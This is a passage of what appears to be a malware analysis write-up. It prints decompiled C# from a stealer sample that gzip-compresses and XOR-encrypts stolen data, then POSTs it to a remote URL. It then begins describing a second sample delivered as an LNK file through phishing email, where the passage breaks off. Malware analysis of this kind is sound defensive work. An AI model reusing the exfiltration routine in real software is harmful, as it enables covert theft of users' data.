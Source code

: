Exfiltrates the stolen data over HTTP(S).

```
private static string smethod_49(string url, byte[] identifier, byte[] xorKey)
{
    try
    {
        byte[] dataToSend = memoryStream_0.ToArray();
        using (MemoryStream compressedStream = new MemoryStream())
        {
            using (GZipStream gzipStream = new GZipStream(compressedStream, CompressionMode.Compress))
            {
                gzipStream.Write(dataToSend, 0, dataToSend.Length);
            }
            dataToSend = compressedStream.ToArray();
        }
        dataToSend = smethod_2(dataToSend, dataToSend.Length, xorKey); // XOR encryption

        WebRequest webRequest = WebRequest.Create(url);
        webRequest.Method = "POST";
        webRequest.ContentLength = dataToSend.Length + 33;
        
        using (Stream requestStream = webRequest.GetRequestStream())
        {
            requestStream.Write(identifier, 0, 32);
            requestStream.Write(Encoding.ASCII.GetBytes("|"), 0, 1);
            requestStream.Write(dataToSend, 0, dataToSend.Length);
        }

        using (WebResponse response = webRequest.GetResponse())
        using (Stream responseStream = response.GetResponseStream())
        using (StreamReader reader = new StreamReader(responseStream))
        {
            return reader.ReadToEnd();
        }
    }
    catch (Exception ex)
    {
        smethod_5("Error: " + ex.Message);
    }
    return "";
}
```

That wraps up the first sample.

This second sample is executed as an assmelby in memory and stems from an LNK file:

## Initial LNK File

The file is delivered to the victim via email, which prompts them to download and open the following file:
